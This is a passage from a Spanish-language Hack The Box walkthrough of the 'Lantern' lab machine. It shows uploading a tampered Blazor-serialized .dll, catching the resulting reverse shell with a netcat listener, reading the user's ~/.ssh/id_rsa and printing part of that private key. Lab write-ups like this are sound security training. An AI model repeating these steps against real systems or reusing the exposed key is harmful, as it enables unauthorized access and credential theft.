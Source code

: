 ```json
```

Copiamos su contenido y clickeamos en `Clear`. Luego, cambiamos el método a `JSON->Blazor` y clickeamos en `Serialize`:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241211154835.png)

La parte importante es el payload serializado en el panel derecho. Lo copiamos. Podemos entonces ir a la petición que habíamos enviado al `Repeater` y pasar el payload serializado manipulado en lugar de subir la imagen (es decir, la petición modificada para subir el archivo `.dll`). No olvidar empezar un listener con `netcat`.

Si esto ha funcionado el archivo debería de haber sido subido. Es por ello que en el portal corriendo `Blazor` buscamos por el módulo `revshell`:

![](https://fallenangel666-htb.github.io/zzero.github.io//assets/images/Lantern/Pasted-image-20241211154841.png)

y en nuestro listener con `netcat` obtenemos algo:

```shell-session
nc -lvnp 443

listening on [any] 443 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.29] 56360
bash: cannot set terminal process group (6714): Inappropriate ioctl for device
bash: no job control in this shell
tomas@lantern:~/LanternAdmin$ whoami

whoami
tomas
tomas@lantern:~/LanternAdmin$
```

Este usuario también tiene una key `id_rsa` para `SSH`:

```shell-session
tomas@lantern:~/LanternAdmin$ cat ~/.ssh/id_rsa

-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
NhAAAAAwEAAQAAAYEAsKi2+IeDOJDaEc7xXczhegyv0iCr7HROTIL8srdZQTuHwffUdvTq
X6r16o3paqTyzPoEMF1aClaohwDBeuE8NHM938RWybMzkXV/Q62dvPba/+DCIaw0SGfEx2
j8KhTwIfkBpiFnjmtRr/79Iq9DpnReh7CS++/dlIF0S9PU54FWQ9eQeVT6mK+2G4JcZ0Jg
aYGuIS1XpfmH/rhxm1woElf2/DJkIpVplJQgL8qOSRJtneAW5a6XrIGWb7cIeTSQQUQ/zS
go3BtI9+YLG3KTXTqfvgZUlK/6Ibt8/ezSvFhXCMt8snVfEvI1H0BlxOisx6ZLFvwRjCi2
xsYxb/8ZAXOUaCZZrTL6YCxp94Xz5eCQOXexdqekpp0RFFze2V6zw3+h+SIDNRBB/naf5i
9pTW/U9wGUGz+ZSPfnexQaeu/DL016kssVWroJVHC+vNuQVsCLe6dvK8xq7UfleIyjQDDO
7ghXLZAvVdQL8b0TvPsLbp5eqgmPGetmH7Q76HKJAAAFiJCW2pSQltqUAAAAB3NzaC1yc2
EAAAGBALCotviHgziQ2hHO8V3M4XoMr9Igq+x0TkyC/LK3WUE7h8H31Hb06l+q9eqN6Wqk
8sz6BDBdWgpWqIcAwXrhPDRzPd/EVsmzM5F1f0Otnbz22v/gwiGsNEhnxMdo/CoU8CH5Aa
YhZ45rUa/+/SKvQ6Z0Xoewkvvv3ZSBdEvT1OeBVkPXkHlU+pivthuCXGdCYGmBriEtV6X5
h/64cZtcKBJX9vwyZCKVaZSUIC/KjkkSbZ3gFuWul6yBlm+3CHk0kEFEP80oKNwbSPfmCx
tyk106n74GVJSv+iG7fP3s0rxYVwjLfLJ1XxLyNR9AZcTorMemSxb8EYwotsbGMW//GQFz
lGgmWa0y+mAsafeF8+XgkDl3sXanpKadERRc3tles8N/ofkiAzUQQf52n+YvaU1v1PcBlB
s/mUj353sUGnrvwy9NepLLFVq6CVRwvrzbkFbAi3unbyvMau1H5XiMo0Awzu4IVy2QL1XU
C/G9E7z7C26eXqoJjxnrZh+0O+hyiQAAAAMBAAEAAAGAL5I/M03KmEDpeEIx3QB+907TSd
JieZoYO6JKShX1gwt001bZb+8j7f8rma39XSpt96Sb3CpHROFxIGmjsGNWwwkFcGx+snH/
QPxS+PaXs3sGHkF4BXlJ2vWWl9w9i1d4Eq3rM8FrEX700F/p6p0nqntLuV5jNlSxZnw1xP
WWL4E0qbAyx3mKwfMPJvlDyMqnC8JQEb8UCy3W4VDpxtxaLhZh/CfVrzps5AW/ZR82kZbU
zd66S79oOJvs1siDD6CHhTQe/54M/gL6/GZwQWzbQC+W26hfX0BYGQU+TESdzZNmA6/Jdz
4YDgrqXeJ0/o2Q6H/hyeKtOM5PildQIf+tHs48mSvA0GK6lk4RWns9CmY6/KmgXS+OWG4s
jbeGjWfO7Rzbo+jXq1wcPVh7/0b6Nsbrvu/gyV8La35q7ujrO8CvzIquyOP+Em1eKFrdpp
91BwxFurDSSJg+baftOOL4EzzZWQVZcU7x3+1AqZZEjfLqbv2E6zOtRKdf+84Y+vrBAAAA
wQDXxzjGB+bz99oHjEFI2wWaxZ2fKgMIfQEPxENqb48XgECsv6PThyDpyupCG2uTW+bYuW
eqMbE/FE1aljKEyFDeY4hhbUfRqI4HdUKVT1He+BhJiN2d0/qdQK4GhHdsKbFr5CUw9FEA
pgcQV30H5wp00J38wTVRU3/EDf1KbANmYIfmMlzrxNvkQRu2jPVyYzKMfs+zVLp81Y8eSK
```